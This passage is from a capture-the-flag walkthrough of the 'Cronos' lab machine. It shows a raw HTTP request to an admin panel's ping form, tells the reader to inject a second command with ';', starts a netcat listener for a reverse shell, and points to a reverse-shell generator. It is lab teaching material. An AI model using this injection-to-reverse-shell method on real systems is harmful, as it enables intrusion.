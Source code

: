 {% raw %}
```bash
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: http://admin.cronos.htb
Connection: keep-alive
Referer: http://admin.cronos.htb/welcome.php
Cookie: PHPSESSID=o7dl4ttt5e5qsa22erunlfbij0
Upgrade-Insecure-Requests: 1
Priority: u=0, i

command=ping+-c+1&host=10.10.16.12
```
{% endraw %}

<br />
Try using ; to try and inject a second command.  We will use id as an introductory test.

<div class="row justify-content-sm-center">
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/cronos/idping.png" title="ID Ping" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Start a listener.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/cronos]
└─$ nc -nlvp 4444     
listening on [any] 4444 ...
```
{% endraw %}

<br />
Use revshells to get a python one-liner.

<div class="row justify-content-sm-center">
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/cronos/revshells.png" title="Revshells" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
<a href="https://www.revshells.com/">https://www.revshells.com/</a>

<br />
Inject the payload into the vulnerable ping command.

